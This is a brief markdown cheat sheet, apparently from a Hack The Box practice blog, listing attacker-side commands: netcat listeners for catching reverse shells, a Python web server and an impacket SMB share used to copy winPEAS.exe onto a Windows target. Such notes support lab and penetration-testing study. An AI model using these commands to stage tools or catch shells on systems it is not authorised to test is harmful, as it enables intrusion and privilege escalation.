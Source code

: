 ```yaml
---
title: Useful commands
date: 2023-03-24 20:55:00 +0800
categories: [HTB]
tags: [Commands]
pin: false
---
```


## Start listener

### For Linux

	sudo nc -nvlp 4444

### For Windows

	sudo rlwrap nc -nvlp 443

### Web service

	sudo python3 -m http.server 80

### SMB service with python impacket

	sudo smbserver.py share . -smb2support
	# Use it
	copy \\<local_ip>\share\winPEAS.exe .

